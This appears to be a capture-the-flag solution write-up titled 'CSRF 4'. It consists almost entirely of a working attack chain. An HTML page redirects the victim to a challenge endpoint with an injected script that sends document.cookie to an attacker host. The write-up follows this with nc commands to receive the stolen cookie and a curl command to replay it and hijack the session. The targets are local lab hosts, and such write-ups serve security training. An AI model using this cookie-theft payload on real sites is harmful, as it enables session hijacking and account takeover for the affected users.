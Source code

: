 # CSRF 4

index.html:

```html
<!DOCTYPE html>
<html>
<body onload="window.location='http://challenge.localhost/ephemeral?msg='+'<'+'script>window.location.href=&quot;http://hacker.localhost:5050?cookie=&quot;%2bdocument.cookie</script'+'>'"></body>
</html>
```

Start the attacker server:

```shell
python3 -m http.server 1337 --bind hacker.localhost
```

Listen for cookie:

```shell
nc -l -v hacker.localhost 5050
```

Use the stolen cookie:

```shell
curl -v --cookie "<stolen cookie>" http://challenge.localhost
```
